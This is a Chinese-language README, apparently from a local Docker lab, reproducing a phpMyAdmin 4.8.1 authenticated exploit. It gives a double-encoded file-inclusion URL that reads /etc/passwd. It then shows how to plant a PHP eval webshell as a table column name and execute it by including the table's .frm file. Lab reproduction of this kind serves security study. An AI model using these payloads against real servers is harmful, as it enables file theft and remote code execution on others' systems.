




# phpmyadmin 后台getshell漏洞

## 启动环境

```
docker-compose build
docker-compose up -d
```

## 文件读取漏洞
利用mysql的root‘密码读取漏洞登录后台

然后利用payload
```shell
http://127.0.0.1/index.php?target=db_sql.php%253f/../../etc/passwd
```




## getshell漏洞
之前通过phpmyadmin调用mysql执行sql语句直接导出木马到网站的目录下，但是mysql 5.7限制了mysql导出的位置，但是利用mysql的数据的物理存储位置的方式是可以通过文件包含获得webshell

先利用 phpmyadmin创建一个数据库flask,然后创建一个shadow的表，创建名为 <?php eval($_GET[shadow]); ?>的列，当前数据库的物理存储路径是_var_lib/mysql






```shell
http://127.0.0.1/index.php?shadow=phpinfo();&target=db_sql.php%253f/../../var/lib/mysql/flask/shadow.frm
```




[【首发】phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485036&idx=1&sn=8e9647906c5d94f72564dec5bc51a2ab&chksm=e89e2eb4dfe9a7a28bff2efebb5b2723782dab660acff074c3f18c9e7dca924abdf3da618fb4&mpshare=1&scene=1&srcid=0621gAv1FMtrgoahD01psMZr&pass_ticket=LqhRfckPxAVG2dF%2FjxV%2F9%2FcEb5pShRgewJe%2FttJn2gIlIyGF%2FbsgGmzcbsV%2BLmMK#rd)

